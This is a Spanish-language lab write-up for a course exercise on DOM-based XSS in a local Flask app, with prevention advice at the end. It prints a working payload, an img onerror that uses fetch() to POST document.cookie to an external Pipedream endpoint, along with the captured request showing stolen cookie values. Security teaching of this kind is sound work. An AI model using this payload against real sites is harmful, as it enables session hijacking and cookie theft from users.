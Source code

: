 Práctica 7 - Ejercicio 3: DOM-based XSS
Cómo realizar el ataque

Inicia la aplicación Flask ejecutando python app.py en la carpeta 3.

Crea un endpoint en https://pipedream.com: https://eoay3fm9fuuq3wd.m.pipedream.net.

(Opcional) Inicia sesión en http://localhost:5003/login con las credenciales de un usuario (por ejemplo, admin/admin) para generar una cookie de sesión, o usa una cookie de prueba configurada en la ruta /dom.

Abre un navegador (Firefox o Pale Moon) y accede a:
http://localhost:5003/dom?q=%3Cimg%20src%3Dx%20onerror%3D%22fetch(%27https://eoay3fm9fuuq3wd.m.pipedream.net%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Adocument.cookie%7D)%22%3E


La plantilla dom.html inserta el parámetro q en el DOM con innerHTML, ejecutando el script en el atributo onerror de la etiqueta <img>.


Resultado

El script envía una solicitud POST a https://eoay3fm9fuuq3wd.m.pipedream.net con las cookies del navegador en el cuerpo de la solicitud.

En Pipedream, se observa la solicitud POST con un cuerpo como test_cookie=test_value_123 : "steps.trigger{2}
context{19}
event{7}
method:POST
path:/
•
query{0}
client_ip:47.62.14.56
url:https://eoay3fm9fuuq3wd.m.pipedream.net/
headers{13}
body
language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=aj4QDO4KyOqPJ7j2novp9EQ38gYVAJlGM1wWxalND5reZRLzmXk6BbmzZRb3; test_cookie=test_value_123"

Esto demuestra que la aplicación es vulnerable a DOM-based XSS, permitiendo el robo de cookies.


Prevención

Usar textContent en lugar de innerHTML.
Sanitizar entradas con DOMPurify.
Implementar CSP: Content-Security-Policy: script-src 'self'.
Validar parámetros de la URL en el cliente.
Usar cookies con SameSite=Strict o SameSite=Lax.

Capturas de pantalla

Captura 1: Página en http://localhost:5003/dom mostrando la inyección.
Captura 2: Solicitud POST recibida en Pipedream con las cookies en el cuerpo.

